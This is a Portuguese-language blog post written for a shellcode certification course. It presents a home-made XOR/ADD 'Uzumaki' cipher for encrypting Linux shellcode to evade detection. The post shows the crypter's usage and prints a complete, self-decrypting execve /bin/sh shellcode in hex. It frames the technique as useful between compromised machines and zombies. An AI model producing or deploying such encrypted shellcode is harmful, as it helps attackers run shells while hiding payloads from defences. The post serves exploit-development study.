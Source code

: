 ```yaml
---
layout: post
title: SLAE - 7th Assignment - Crypted Shellcodes
date: '2013-04-29T12:03:00.000-03:00'
author: geyslan
tags: [slae, shellcode, linux, code, assembly, python, cryptography, hacking, portuguese]
modified_time: '2013-08-22T13:17:25.039-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-2083288330686489851
blogger_orig_url: http://www.hackingbits.com/2013/04/slae-7th-assignment-crypted-shellcodes.html
---
```


*/\*<br>
Este post é uma sequência. Para melhor entendimento, vejam:<br>
[SLAE - 1st Assignment - Shell Bind TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
[Hacking do Dia - Shell Bind TCP Random Port](/hacking-do-dia-shell-bind-tcp-random.html)<br>
[SLAE - 2nd Assignment - Shell Reverse TCP](/slae-2nd-assignment-shell-reverse-tcp.html)<br>
[O menor do mundo? Yeah? So Beat the Bits!](/o-menor-do-mundo-yeah-so-beat-bits.html)<br>
[SLAE - 3rd Assignment - Caçando Ovos?](/slae-3rd-assignment-cacando-ovos.html)<br>
[SLAE - 4th Assignment - Encoding and Decoding Gollums](/slae-4th-assignment-encoding-and.html)<br>
[SLAE - 5th Assignment - Metasploit Shellcodes Analysis](/slae-5th-assignment-metasploit.html)<br>
[SLAE - 6th Assignment - Polymorphic Shellcodes](/slae-6th-assignment-polymorphic.html)<br>
\*/*

<!--more-->

*This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:*

*[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)*

*Student ID: SLAE-237*

*Códigos deste post estão no [GitHub](https://github.com/geyslan/SLAE/tree/master/7th.assignment)*.

*Shell-Storm:<br>
[Tiny Execve Sh](http://shell-storm.org/shellcode/files/shellcode-841.php)<br>
[Insertion Decoder Shellcode](http://shell-storm.org/shellcode/files/shellcode-840.php)*

##The Last Mission

Finalmente, o último assignment.

###7th assignment

- Criar um crypter customizado.
- Utilizar qualquer esquema de criptografia existente.
- Usar qualquer linguagem de programação.

##Criptografia!

O vídeo sobre o assunto demonstra um encrypter e um decrypter, construídos em C,
que usam o algoritmo de fluxo [RC4](http://en.wikipedia.org/wiki/RC4) para
processar o shellcode. De início eu não contemplei a que fim serviria um
shellcode critptografado que não conteria seu decrypter embutido, portanto,
agradeço ao Pedro Fausto pela objetiva explanação que me deixou inteirado das
possíveis finalidades: uso na comunicação entre dois pontos já comprometidos;
uso entre um bastião e seus zumbis... Em suma, para qualquer uso evasivo entre
pontos!

Encontrei um algoritmo candidato para a implementação do crypter: [TEA - Tiny
Encryption Algorithm](http://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm).
Entretanto, vi que ele não seria viável por conta do tamanho que ele teria em
[assembly](http://nayuki.eigenstate.org/page/tiny-encryption-algorithm-in-x86-assembly);
haja vista não ter aberto mão de criar o built-in decrypter.

Só tinha uma maneira, criar meu próprio tiny
[cipher](http://en.wikipedia.org/wiki/Cipher).

##Uzumaki Cipher (Swirling Everything)

Usei os moldes da [Stream Cipher](http://en.wikipedia.org/wiki/Stream_cipher)
para criar o Uzumaki (うずまき) Cipher; a cifra consiste no processo de um XOR com
um valor estático, seguido de mais um XOR com um valor pseudorandom (keystream),
terminando com o ADD de um valor estático.

###Crypter

**shellcode[x-1] ^ (shellcode[x] ^ xorByte)) + addByte**

###Built-in Decrypter

{% include image.html url="https://raw.github.com/geyslan/SLAE/master/7th.assignment/uzumaki_decrypter.png" desc="Fluxograma do Uzumaki Cipher" %}

O uzumaki cipher é um algoritmo simples que pode ser utilizado com sucesso em
shellcodes quando o assunto é evasão. Devo ressaltar que um dado criptografado,
para sua própria segurança, não deve conter informações que possam levar à
desencriptação; assim, o built-in decrypter do fluxograma acima (no git com
código comentado) foi criado apenas como uma
[PoC](http://en.wikipedia.org/wiki/Proof_of_Concept). Contudo, nada obsta seu
uso.

##Uso

{% highlight console %}
$ ./uzumaki_crypter.py -a 01 -x 5d -s $'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
...
Crypted shellcode:

"\x31\xa6\x64\x4c\x0d\xe7\x08\x65\x1b\x5e\x02\x47\x5e\x1b\x11\x57\x5b\xbb\x38\x74\x11";

0x31,0xa6,0x64,0x4c,0x0d,0xe7,0x08,0x65,0x1b,0x5e,0x02,0x47,0x5e,0x1b,0x11,0x57,0x5b,0xbb,0x38,0x74,0x11

Crypted shellcode with decrypter built-in:

"\x29\xc9\x74\x14\x5e\xb1\x14\x46\x8b\x06\x83\xe8\x01\x34\x5d\x32\x46\xff\x88\x06\xe2\xf1\xeb\x05\xe8\xe7\xff\xff\xff\x31\xa6\x64\x4c\x0d\xe7\x08\x65\x1b\x5e\x02\x47\x5e\x1b\x11\x57\x5b\xbb\x38\x74\x11";

0x29,0xc9,0x74,0x14,0x5e,0xb1,0x14,0x46,0x8b,0x06,0x83,0xe8,0x01,0x34,0x5d,0x32,0x46,0xff,0x88,0x06,0xe2,0xf1,0xeb,0x05,0xe8,0xe7,0xff,0xff,0xff,0x31,0xa6,0x64,0x4c,0x0d,0xe7,0x08,0x65,0x1b,0x5e,0x02,0x47,0x5e,0x1b,0x11,0x57,0x5b,0xbb,0x38,0x74,0x11
{% endhighlight %}

##Fim!?

É isso aí pessoal! Essa foi a última missão do curso SLAE! E até que foi
simples, porque no decorrer dos posts, aprendemos muitas formas de utilizar a
linguagem assembly para a criação de vários tipos de shellcodes.

Espero que tenham gostado!

[]

##Mais Informações

[SLAE - SecurityTube Linux Assembly Expert](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br>
[Get shellcode of the binary using objdump - Andrey Arapov](http://www.commandlinefu.com/commands/view/12151/get-shellcode-of-the-binary-using-objdump#comment)<br>
[RC4](http://en.wikipedia.org/wiki/RC4)<br>
[Tiny Encryption Algorithm](http://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm)<br>
[Cipher](http://en.wikipedia.org/wiki/Cipher)<br>
[Stream Cipher](http://en.wikipedia.org/wiki/Stream_cipher)<br>
[Uzumaki - Denshi Jisho](http://jisho.org/words?jap=uzumaki&eng=&dict=edict)<br>
